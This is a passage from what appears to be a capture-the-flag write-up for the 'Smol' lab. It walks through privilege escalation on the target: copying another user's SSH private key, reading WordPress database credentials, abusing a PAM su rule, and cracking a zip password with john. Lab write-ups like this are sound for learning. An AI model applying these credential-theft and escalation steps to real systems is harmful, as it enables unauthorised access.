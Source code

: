 Transfer or copy it to your machine, then login as him:
```bash
chmod 600 id_rsa
```
```bash
ssh -i id_rsa think@smol.thm
```

This fails, lets try to do it from the target machine:
```bash
cp /home/think/.ssh/id_rsa .
```
```bash
chmod 600 id_rsa
```
```bash
ssh -i id_rsa think@localhost
```

This time worked, we are now "think".


> [!NOTE] Not Useful anymore but Interesting
> `cat /var/www/wordpress/wp-config.php`
define( 'DB_NAME', 'wordpress' );
define( 'DB_USER', 'wpuser' );
define( 'DB_PASSWORD', 'REDACTED_PASSWORD' );
define( 'DB_HOST', 'localhost' );

##### Becoming Gege
We find out from linpeas that we can read `/etc/pam.d`, exploring the files the `su` one has some interesting lines:
```
auth  [success=ignore default=1] pam_succeed_if.so user = gege
auth  sufficient                 pam_succeed_if.so use_uid user = think
```

This means that as "think" we can authenticate to "gege" without the need of a password:
```bash
su gege
```

##### Becoming Xavi
Inside her home we find a file created by root: `wordpress.old.zip`, transfer it to your machine.
If we try to extract the files it requires a password, let's crack it with john:
```bash
zip2john wordpress_old.zip > hash4john.txt
```

Now crack it:
```bash
john hash4john.txt --wordlist=rockyou.txt
```

We get the password: `READACTED_PASSWORD`

Now extract the files:
```bash
unzip wordpress.old.zip
```

